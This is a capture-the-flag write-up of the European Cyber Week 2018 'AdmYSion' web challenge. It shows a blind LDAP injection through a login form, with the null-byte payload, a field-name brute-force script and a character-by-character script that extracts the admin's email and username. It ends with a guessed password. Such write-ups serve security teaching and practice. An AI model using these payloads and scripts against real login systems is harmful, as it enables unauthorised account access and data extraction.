 # [European Cyber Week] - AdmYSion



## State of the art

We only have a login form in front of us:


![](/lib/images/writeups/2018_ecw/admysion/adm_1.png)


My first move was trying an SQL injection... It was useless, in fact it's an `LDAP injection`:


![](/lib/images/writeups/2018_ecw/admysion/adm_2.png)


Our little asterisk `*` is matching with all the accounts in the LDAP base, it's now time to script :D

## Blind LDAP Injection

Because I already did an LDAP injection on a famous french challenge platform (it starts by `root` and ends by `-me.org`), I know that the payload will have the following aspect

> *)(cn=*))\x00

The `cn` part will change, it's a common field in an LDAP base, it means `Common Name`. The null byte at the end is used to remove the password field.

## Find LDAP fields

I built a little dictionary with all the common LDAP fields:

```raw
c
cn
dc
facsimileTelephoneNumber
co
gn
homePhone
jpegPhoto
id
l
mail
mobile
o
ou
owner
name
pager
password
sn
st
uid
username
userPassword
```

And then a little python script to bruteforce them:

```python
#!/usr/bin/python3

import requests
import string

ava = []

url = 'https://web050-admyssion.challenge-ecw.fr/'

f = open('dic', 'r')
dic = f.read().split('\n')
f.close()

for i in dic:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'})
    if 'Error: This login is associated with' in r.text:
        ava.append(str(i))

print(ava)
```

### looking for the admin email

Okay, now I will dig into the `mail` field trying to find the email address of the administrator (I know my script is very, very ugly, I bruteforced manually each first letter...):

```python
#!/usr/bin/python3

import requests
import string
import itertools
from pprint import pprint

ava = []
partial = ''
no_pass = True
charset = string.ascii_lowercase+'.@'

url = 'https://web050-admyssion.challenge-ecw.fr/'

go = 'Error: This login is associated'
go2 = 'Login failed'
nogo = 'Account not found, please'

while no_pass:
    no_pass = False
    for i in charset:
        payload = '*)(mail=s'+str(partial+i)+'*))\x00'
        r = requests.post(url, data = {'login':payload, 'password':'bla'})
        if nogo not in r.text:
            no_pass = True
            partial += i
            break
    print(partial)
```

You can notice the little `s` in front of my _partial_ variable! I tried to find all `a`, `b` etc... And here is why `s`:


![](/lib/images/writeups/2018_ecw/admysion/adm_3.png)


`s`+`arah.connor.admin@yoloswag.com` looks to be the administrator. To find the username of the account, just change `mail` field into `cn`, it gives us: `s.connor`. And now, how can we find the password? By guessing for sure! Let's try 'yoloswag' as a password:


![](/lib/images/writeups/2018_ecw/admysion/adm_4.png)

